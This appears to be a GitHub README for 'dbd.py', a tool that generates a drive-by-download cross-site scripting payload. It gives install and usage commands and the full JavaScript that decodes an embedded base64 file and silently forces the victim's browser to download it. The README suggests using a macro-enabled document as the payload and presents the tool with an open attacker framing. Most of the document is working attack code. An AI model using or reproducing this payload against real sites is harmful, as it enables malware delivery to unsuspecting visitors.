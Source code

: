 # dbd.py (drive-by-download)

Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob). Say goodbye to ```alert(1)```.

# install

```shell
$ git clone https://github.com/demetriusx00/dbd.git
$ cd dbd/ && pip3 install -r requirements.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --version
  --suffix [.doc|.pdf|.exe|.docx]
  --payload FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --suffix=".doc" --payload="15122020.doc"
```

Serve the script with tooling of your choice :smiling_imp:

```javascript
class MimeFactory {
  constructor(type) {
    const mimes = {
      '.doc': 'application/msword'
      , '.pdf': 'application/pdf'
      , '.exe': 'application/octet-stream'
      , '.docx': 'application/vnd.openxmlformats-officedocument.wordprocessingml.document'
    , }

    if (!(type in mimes)) {
      return;
    }

    this.type = mimes[type];
  }
}

((file, payload) => {
  const empty = ({
    length
  }) => length === 0;

  if (empty(file) || empty(payload)) return;

  const decoded = window.atob(payload);

  const mime = new MimeFactory(file);
  const size = payload.length;
  const link = document.createElement('a');

  const bin = new Uint8Array(size);
  for (let i = 0; i < size; i++) {
    bin[i] = decoded.charCodeAt(i);
  }

  const blob = new Blob([bin.buffer]
    , {
      type: mime.type
    });

  const url = window.URL.createObjectURL(blob);

  link.style = 'display:none;';
  link.href = url;
  link.download = file;

  document.body.appendChild(link);
  link.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(link);

})('657hi94.pdf', '<GENERATED_PAYLOAD>');
```
